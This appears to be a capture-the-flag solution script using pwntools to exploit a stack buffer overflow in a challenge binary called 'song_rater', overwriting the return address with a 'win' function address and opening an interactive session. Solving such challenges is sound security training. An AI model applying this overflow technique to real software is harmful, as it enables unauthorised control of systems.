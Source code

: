 from pwn import *
import time

binary_path = "./song_rater"

# Win function
scratched_record_addr = 0x00401196

p = process('./song_rater')
#p = remote("xxxxx.ctf.kitctf.de", "443", ssl=True)
#p = gdb.debug(binary_path,  terminal=['tmux', 'new-window'])

time.sleep(1)
print(p.recv())

payload = b"A" * 256  
payload += b"B" * 8   
payload += p64(scratched_record_addr)

# Clean the payload from format strings 
clean_payload = payload.replace(b"%", b"%%")

p.sendline(clean_payload)

p.interactive()
